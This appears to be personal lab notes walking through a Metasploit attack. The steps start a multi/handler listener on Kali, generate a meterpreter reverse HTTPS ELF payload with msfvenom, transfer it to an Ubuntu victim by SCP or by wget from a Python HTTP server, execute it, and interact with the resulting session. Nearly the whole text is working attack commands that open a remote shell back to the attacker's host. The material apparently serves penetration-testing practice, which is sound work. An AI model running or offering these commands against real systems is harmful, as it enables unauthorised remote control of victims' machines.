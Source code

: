 ## Step 1 — Start the C2 listener on Kali

On **Kali (192.168.11.4)**:

```bash
msfconsole -q
```

Inside Metasploit:

```
use exploit/multi/handler
set payload linux/x64/meterpreter_reverse_https
set LHOST 192.168.11.4
set LPORT 8443
set ExitOnSession false
exploit -j
```

This spins up a background HTTPS listener on **8443** ready to accept connections from the victim.

> Tip: If 8443 is busy, pick another high port (e.g., 9443) and change LPORT accordingly.
> 

---

## Step 2 — Build the Linux payload (ELF) on Kali

Still on **Kali** (new terminal is fine):

```bash
msfvenom -p linux/x64/meterpreter_reverse_https LHOST=192.168.11.4 LPORT=8443 -f elf -o /tmp/rs_https.elf
chmod +x /tmp/rs_https.elf
sha256sum /tmp/rs_https.elf
```

Keep the hash for your notes.

---

## Step 3 — Transfer the payload to the victim

Pick **one** method.

**A) Via SCP (recommended, if SSH is enabled on Ubuntu)**

```bash
scp /tmp/rs_https.elf user@192.168.10.4:/tmp/
```

**B) Simple HTTP server (no SSH required)**

On Kali:

```bash
cd /tmp && python3 -m http.server 8000
```

On Ubuntu:

```bash
wget http://192.168.11.4:8000/rs_https.elf -O /tmp/rs_https.elf
chmod +x /tmp/rs_https.elf
```

---

## Step 4 — Execute the payload on the victim

On **Ubuntu (192.168.10.4)**:

```bash
chmod +x /tmp/rs_https.elf
/tmp/rs_https.elf &
```

Within a few seconds, go back to **Metasploit** on Kali:

```bash
sessions
```

You should see a `meterpreter` session. Interact with it:

```bash
sessions -i 1
sysinfo
ifconfig
getuid
```

---

## Additional Notes:

If using a virtual machine, enable [[Port Forwarding]]
When creating the msf venom payload, make sure to use the Local machine IP and when calling the msf exploit handler, set the ip to the one mentioned in your port forwarding rule. In my case, it is 0.0.0.0
Use port 4444 as it is set in the port forwarding rule through which the target machine will be able to reach kali.

![[Pasted image 20250903142747.png]]

![[Pasted image 20250903142813.png]]
